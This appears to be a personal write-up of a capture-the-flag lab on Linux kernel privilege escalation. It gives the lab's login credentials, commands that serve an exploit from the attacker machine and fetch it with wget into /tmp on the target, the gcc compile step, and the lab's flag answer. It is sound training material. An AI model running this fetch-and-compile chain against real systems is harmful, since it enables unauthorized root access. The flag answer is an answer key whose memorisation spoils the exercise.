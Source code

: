 **Note: Launch the target machine attached to this task to follow along.**

**You can launch the target machine and access it directly from your browser.**

**Alternatively, you can access it over SSH with the low-privilege user credentials below:  
**

**Username: karen**

**Password: Password1**

  

Privilege escalation ideally leads to root privileges. This can sometimes be achieved simply by exploiting an existing vulnerability, or in some cases by accessing another user account that has more privileges, information, or access.

  

Unless a single vulnerability leads to a root shell, the privilege escalation process will rely on misconfigurations and lax permissions.

  

The kernel on Linux systems manages the communication between components such as the memory on the system and applications. This critical function requires the kernel to have specific privileges; thus, a successful exploit will potentially lead to root privileges.

  

The Kernel exploit methodology is simple;

1. Identify the kernel version
2. Search and find an exploit code for the kernel version of the target system
3. Run the exploit

Although it looks simple, please remember that a failed kernel exploit can lead to a system crash. Make sure this potential outcome is acceptable within the scope of your penetration testing engagement before attempting a kernel exploit.

  

**Research sources:**  

1. Based on your findings, you can use Google to search for an existing exploit code.
2. Sources such as [https://www.linuxkernelcves.com/cves](https://www.linuxkernelcves.com/cves) can also be useful.
3. Another alternative would be to use a script like LES (Linux Exploit Suggester) but remember that these tools can generate false positives (report a kernel vulnerability that does not affect the target system) or false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).

**Hints/Notes:**

1. Being too specific about the kernel version when searching for exploits on Google, Exploit-db, or searchsploit
2. Be sure you understand how the exploit code works BEFORE you launch it. Some exploit codes can make changes on the operating system that would make them unsecured in further use or make irreversible changes to the system, creating problems later. Of course, these may not be great concerns within a lab or CTF environment, but these are absolute no-nos during a real penetration testing engagement.
3. Some exploits may require further interaction once they are run. Read all comments and instructions provided with the exploit code.
4. You can transfer the exploit code from your machine to the target system using the `SimpleHTTPServer` Python module and `wget` respectively.


### Answer:

#### On Local machine:

Find and download kernel exploit:

![[Pasted image 20231212195850.png]]


Open  python server:

```
python -m http.server
```

![[Pasted image 20231212200443.png]]

#### On victim machine:

IP check (on local machine):

![[Pasted image 20231212200951.png]]

Move to folder which doesn't require privileges (/tmp):

![[Pasted image 20231212201349.png]]

Connect to the server and download the file:

```
wget http://10.8.194.147:8000/37292.c
```

![[Pasted image 20231212203328.png]]

Compile the exploit and execute it:

```
gcc 37292.c -o exploit
```

![[Pasted image 20231212203219.png]]

![[Pasted image 20231212203417.png]]

The flag is in home/matt:

![[Pasted image 20231212203641.png]]


Answer the questions below

| Question                                                                                  | Answer             |
| ----------------------------------------------------------------------------------------- | ------------------ |
| find and use the appropriate kernel exploit to gain root privileges on the target system. | No answer needed   |
| What is the content of the flag1.txt file?                                                | THM-28392872729920 |
